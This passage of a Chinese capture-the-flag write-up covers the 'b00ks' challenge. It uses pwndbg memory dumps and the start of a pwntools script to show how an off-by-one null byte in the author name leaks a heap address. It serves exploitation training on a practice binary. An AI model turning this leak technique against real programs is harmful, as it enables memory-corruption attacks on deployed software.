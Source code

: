 ```c
  {
    result = 0LL;
  }
  return result;
}
```



这是我们漏洞的函数，我们看一下，我们在程序刚开始会读一个author到数据里如图

```
pwndbg> x/100xg 0x5567be53b000
0x5567be53b000:	0x0000000000000000	0x00005567be53b008
0x5567be53b010:	0x00005567be53b060	0x00005567be53b040
0x5567be53b020:	0x0000000100000000	0x0000000000000000
0x5567be53b030:	0x0000000000000000	0x0000000000000000
0x5567be53b040:	0x6161616161616161	0x6161616161616161
0x5567be53b050:	0x6161616161616161	0x6161616161616161
0x5567be53b060:	0x00005567bf82e130	0x0000000000000000
```



并存放在base+0x202018的地方，这个地方保存的值，是author的地址，我们可以看到是0x5567be53b018,里面放的值是0x00005567be53b040，这里的值就是我们的author，不过我们这个值是读入了32位，并强行把第33个字节变成了'\x00'，我们这个author的下一个数据块存放的是我们所创建的book1的结构的地址。如图所示

```
pwndbg> x/10xg 0x00005567bf82e130
0x5567bf82e130:	0x0000000000000001	0x00005567bf82e020
0x5567bf82e140:	0x00005567bf82e060	0x00000000000000c8
0x5567bf82e150:	0x0000000000000000	0x0000000000020eb1
0x5567bf82e160:	0x0000000000000000	0x0000000000000000
0x5567bf82e170:	0x0000000000000000	0x0000000000000000
```



所以这个里面放的是id，name的地址，description的地址，description的长度，我们仔细的想一想，如果我们可以把0x55fb35d9d040里的最后一个\x00变成别的，那我们print信息的时候就可以得到别的内容了，于是我们选择输入32长度的author，然后创建第一本书，并print泄露出来第一本书的地址。脚本如下

```python
1 #coding:utf8
  2 from pwn import *
  3 
  4 #context.log_level = 'debug'
  5 def create(size,content,dsize,dcontent):
  6     p.sendline("1")
  7     log.info(p.recvuntil(":"))
  8     p.sendline(str(size))
  9     log.info(p.recvuntil(":"))
 10     p.sendline(content)
 11     log.info(p.recvuntil(":"))
 12     p.sendline(str(dsize))
 13     log.info(p.recvuntil(":"))
 14     p.sendline(dcontent)
 15     log.info(p.recvuntil(">"))
...
 31 def show():
 32     p.sendline("4")
 33 
...
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 44 p.sendlineafter("name: ","a"*32)
```